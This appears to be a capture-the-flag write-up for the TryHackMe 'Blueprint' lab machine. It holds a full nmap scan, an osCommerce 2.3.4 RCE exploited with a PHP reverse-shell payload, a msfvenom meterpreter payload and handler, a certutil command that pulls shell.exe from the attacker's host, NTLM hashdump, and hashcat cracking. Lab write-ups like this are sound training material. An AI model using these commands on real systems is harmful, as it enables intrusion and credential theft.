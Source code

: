 
https://tryhackme.com/r/room/blueprint

---

Look at this sexy new nmap
```shell
sudo nmap -n -Pn -sS -p- --open -min-rate 5000 -vvv 10.10.152.243
```

```text
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-24 20:13 CEST  
Initiating SYN Stealth Scan at 20:13  
Scanning 10.10.152.243 [65535 ports]  
Discovered open port 443/tcp on 10.10.152.243  
Discovered open port 80/tcp on 10.10.152.243  
Discovered open port 135/tcp on 10.10.152.243  
Discovered open port 445/tcp on 10.10.152.243  
Discovered open port 3306/tcp on 10.10.152.243  
Discovered open port 139/tcp on 10.10.152.243  
Discovered open port 8080/tcp on 10.10.152.243  
Discovered open port 49153/tcp on 10.10.152.243  
Discovered open port 49152/tcp on 10.10.152.243  
Discovered open port 49158/tcp on 10.10.152.243  
Discovered open port 49159/tcp on 10.10.152.243  
Discovered open port 49154/tcp on 10.10.152.243  
Discovered open port 49160/tcp on 10.10.152.243  
Completed SYN Stealth Scan at 20:13, 35.78s elapsed (65535 total ports)  
Nmap scan report for 10.10.152.243  
Host is up, received user-set (0.032s latency).  
Scanned at 2024-07-24 20:13:20 CEST for 35s  
Not shown: 46016 filtered tcp ports (no-response), 19506 closed tcp ports (reset)  
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit  
PORT      STATE SERVICE      REASON  
80/tcp    open  http         syn-ack ttl 127  
135/tcp   open  msrpc        syn-ack ttl 127  
139/tcp   open  netbios-ssn  syn-ack ttl 127  
443/tcp   open  https        syn-ack ttl 127  
445/tcp   open  microsoft-ds syn-ack ttl 127  
3306/tcp  open  mysql        syn-ack ttl 127  
8080/tcp  open  http-proxy   syn-ack ttl 127  
49152/tcp open  unknown      syn-ack ttl 127  
49153/tcp open  unknown      syn-ack ttl 127  
49154/tcp open  unknown      syn-ack ttl 127  
49158/tcp open  unknown      syn-ack ttl 127  
49159/tcp open  unknown      syn-ack ttl 127  
49160/tcp open  unknown      syn-ack ttl 127  
  
Read data files from: /usr/bin/../share/nmap  
Nmap done: 1 IP address (1 host up) scanned in 35.90 seconds  
          Raw packets sent: 179460 (7.896MB) | Rcvd: 19928 (797.180KB)
```

On the port `8080` https, I found `oscommercie 2.3.4` and an exploit RCE on [exploit db](https://www.exploit-db.com/exploits/44374)

I replaced the `base_url` with my own and put the `PHP Ivan Sincek` payload from [revshells](https://www.revshells.com/)

I poped directly as `nt authority\system` so I was able to get the root flag directly

Then I setup a shell meterpreter
```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.14.79.56 LPORT=9002 -f exe -o shell.exe
```

```shell
msfconsole

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.14.79.56
set LPORT 9002
exploit
```

I transfer `shell.exe` on the target
```powershell
certutil -urlcache -split -f "http://10.14.79.56:5050/shell.exe" C:\temp\shell.exe
```

I got `Lab`'s NTLM hash with `hashdump` in meterpreter

I was looking for the password with rockyou.txt but it was in another wordlist
```shell
hashcat -a 0 -m 1000 hash /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-1000000.txt
```
